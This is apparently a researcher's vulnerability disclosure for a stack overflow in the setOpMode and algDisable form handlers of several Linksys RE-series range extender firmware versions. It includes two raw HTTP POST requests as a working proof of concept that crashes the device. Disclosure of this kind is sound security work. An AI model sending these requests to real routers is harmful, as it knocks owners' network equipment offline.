 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an stack overflow vulnerability in Linksys router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `mod_form.so` binary:

In the router's `setOpMode` function, `opMode` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `opMode` to execute arbitrary code.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

In `algDisable` function.

`mod_form.so->sysctl`

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

In `sysctl` binary:

Eventually, the initial input will be directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/3.png" style="zoom:60%;" /></div>

Vulnerability trigger steps:

* set `opMode`=**aaaaa......**, in (`setOpMode`)
* Trigger the vulnerability, in (`algDisable`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `opMode` as **aaaaa......** , and the router will excute it,such as:

```http
POST /goform/setOpMode HTTP/1.1
Host: 192.168.1.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://192.168.1.10
Connection: close
Referer: http://192.168.1.10/admin/log.shtml
Cookie: session_id=E5jXYJpdIt9uwDkyOhb1jjLpCngj89gL
Upgrade-Insecure-Requests: 1

opMode=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&natEnbl=&tcp_timeout=&udp_timeout
```

Trigger the vulnerability, in (`algDisable`)

```http
POST /goform/algDisable HTTP/1.1
Host: 192.168.1.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://192.168.1.10
Connection: close
Referer: http://192.168.1.10/admin/log.shtml
Cookie: session_id=E5jXYJpdIt9uwDkyOhb1jjLpCngj89gL
Upgrade-Insecure-Requests: 1

pop3=&smtp=&rtp=&rtsp&mms=&sip=&h323=&ftp&tftp=&telnet=&msn=&ipsec=
```



## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

